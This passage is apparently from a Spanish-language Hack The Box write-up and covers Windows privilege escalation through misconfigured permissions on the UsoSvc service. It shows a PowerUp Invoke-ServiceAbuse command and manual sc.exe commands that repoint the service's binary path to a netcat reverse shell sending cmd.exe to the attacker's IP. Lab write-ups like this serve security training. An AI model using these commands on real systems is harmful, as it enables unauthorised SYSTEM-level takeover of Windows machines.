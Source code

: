 _Reverse Shell con usuario de bajos privilegios_

## Elevación de privilegios

Procedemos a subir el archivo **PowerUp de powershell**, que nos permitirá testear de forma automática diferentes vectores de escala de privilegios en sistemas Windows y obtenemos los siguientes resultados: 

![PowerUp](/assets/htb/02_remote/13_powerup.png)
_PowerUp Windows_

Como se puede observar, hay un hallazgo con el servicio `UsoSvc`, el cual no tiene adecuadamente configurado los permisos, así que después de mucho intentar, nos decantamos por esta posibilidad. Investigando un poco, se descubre que dicho servicio posee una vulnerabilidad reciente de **escala de privilegios**, la cual afecta a sistemas Windows 10 y viene vulnerable desde fábrica:

- <https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/>

La vulnerabilidad consiste puntualmente en el **abuso de permisos en un servicio**, en este caso un servicio propio de Windows. Por lo que podemos con los privilegios actuales, alterar la ruta del ejecutable del servicio e incrustar cualquier comando o acción. La explotación se puede realizar 2 maneras, una automática utilizando la funcionalidad `Invoke-ServiceAbuse` de **PowerUp** ó de forma manual, realizando la configuración y alterando la ruta.

- PowerUp
```powershell
> Powershell -nop -exec bypass -c “Import-Module ./PowerUp.ps1; Invoke-ServiceAbuse -ServiceName UsoSvc”
```
- Manual
```console
> sc.exe stop UsoSvc
> sc.exe config UsoSvc binpath=”C:\Users\public\nc.exe 10.10.14.45 4545 -e cmd.exe”
> sc.exe start UsoSvc
```
